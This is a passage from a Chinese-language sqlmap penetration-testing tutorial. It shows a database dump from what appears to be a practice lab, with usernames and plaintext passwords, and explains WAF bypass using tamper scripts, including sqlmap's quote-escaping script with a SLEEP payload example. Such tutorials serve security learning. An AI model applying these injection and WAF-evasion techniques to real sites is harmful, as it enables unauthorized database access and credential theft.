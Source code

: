```shell
│   ├── help_keyword.csv
│   ├── help_relation.csv
│   ├── help_topic.csv
│   ├── proxies_priv.csv
│   ├── servers.csv
│   └── user.csv
├── performance_schema
│   ├── cond_instances.csv
│   ├── ......
│   └── threads.csv
└── security
    ├── emails.csv
    ├── referers.csv
    ├── uagents.csv
    ├── users.csv
    └── users.csv.1
5 directories, 70 files
Ubuntu# cat /root/.local/share/sqlmap/output/localhost/dump/security/users.csv
id,username,password
1,Dumb,Dumb
2,Angelina,I-kill-you
3,Dummy,p@ssword
4,secure,crappy
5,stupid,stupidity
6,superman,genious
7,batman,mob!le
8,admin,admin
9,admin1,admin1
10,admin2,admin2
11,admin3,admin3
12,dhakkan,dumbo
14,admin4,admin4
```

#### 利用 tamper 绕过 WAF

在云时代网络中，很多部署网站的服务器都会提供 WAF（Web 防火墙）服务。在未部署的情况下，云厂商如果检测到 Web 攻击请求，可能会发短信通知你开启 WAF 服务。之前我在一次渗透测试工作中就是如此：原本未部署 WAF 的网站，在 SQL 注入的过程中，突然就开启 WAF 拦截了。

tamper 正是对 sqlmap 进行扩展的一系列脚本，可在原生 payload 的基础上做进一步的处理以绕过 WAF 拦截。sqlmap 里有个 tamper 目录，里面放着很多脚本，比如编码、字符替换、换行符插入。

我们先来看下 sqlmap 自带的一个最简单的，用于转义单引号的 tamper 脚本：

```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Slash escape single and double quotes (e.g. ' -> \')
    >>> tamper('1" AND SLEEP(5)#')
    '1\\\\" AND SLEEP(5)#'
    """
    return payload.replace("'", "\\'").replace('"', '\\"')
```
